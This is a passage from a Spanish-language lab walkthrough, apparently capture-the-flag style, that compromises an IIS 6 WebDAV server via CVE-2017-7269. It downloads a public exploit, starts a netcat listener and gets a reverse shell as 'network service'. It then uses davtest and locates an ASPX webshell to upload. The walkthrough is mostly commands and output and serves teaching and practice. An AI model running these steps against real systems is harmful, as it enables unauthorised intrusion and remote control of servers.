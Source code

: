 Descarga y renombramiento de exploit
```bash
cd ../exploit
wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
mv iis6\ reverse\ shell iisExploit.py
```

Modo de uso exploit
```bash
python iisExploit.py
usage:iis6webdav.py targetip targetport reverseip reverseport
```

Creamos un listener
```bash
rlwrap nc -lnvp 4564
```

Ejecutamos el exploit
```bash
python iisExploit.py 10.10.10.15 80 10.10.14.8 4564
```

Reverse shell exitosa
```bash
#OUTPUT
whoami
nt authority\network service
```
## INTRUCIÓN WEBSHELL + SMBSERVER + NC

Otro método de intrusión se puede ejeutar por medio de la subida de una webshell al servidor víctima, para esto vamos a seguir las siguientes indicaciones.

Hacemos uso de `davest` para auditar los archivos que podemos subir a un objetivo
```bash
davtest -url http://10.10.10.15
```
```bash
#OUTPUT
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_AUl9CdY
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.jsp
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.txt
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.html
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.php
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.pl
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.cfm
PUT File: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.jhtml
Executes: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.txt
Executes: http://10.10.10.15/DavTestDir_AUl9CdY/davtest_AUl9CdY.html
```

Localizamos los binarios `.aspx` que contienen una webshell
```bash
locate .aspx
`````
```bash
#OUTPUT
/usr/share/webshells/aspx/cmdasp.aspx
```
